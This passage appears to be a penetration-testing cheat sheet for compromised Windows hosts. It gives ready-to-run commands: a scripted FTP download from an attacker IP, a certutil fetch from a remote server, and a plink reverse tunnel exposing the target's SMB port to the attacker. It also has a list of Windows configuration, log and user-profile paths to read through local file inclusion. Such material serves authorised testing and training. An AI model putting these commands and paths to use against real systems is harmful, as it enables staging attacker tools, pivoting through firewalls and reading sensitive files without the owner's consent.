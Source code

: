 Non-interactive FTP via text file._Useful for when you only have limited command execution._

```
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
```

CertUtil

```
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

## Port Forwarding {#port-forwarding}

This is useful for exposing inside services that aren’t available from outside the machine, normally due to firewall settings.

Upload`plink.exe`to target.

Start SSH on your attacking machine.

For example to expose SMB, on the target run:

```
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

_Note: As of the Fall Creators Update for Windows 10, OpenSSH has been introduced in beta for Windows, so I expect one day we may be able to use just regular old SSH commands for port forwarding, depending on if it’s enabled._

## Local File Inclusion List {#local-file-inclusion-list}

This is not an exhaustive list, installation directories will vary.

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
```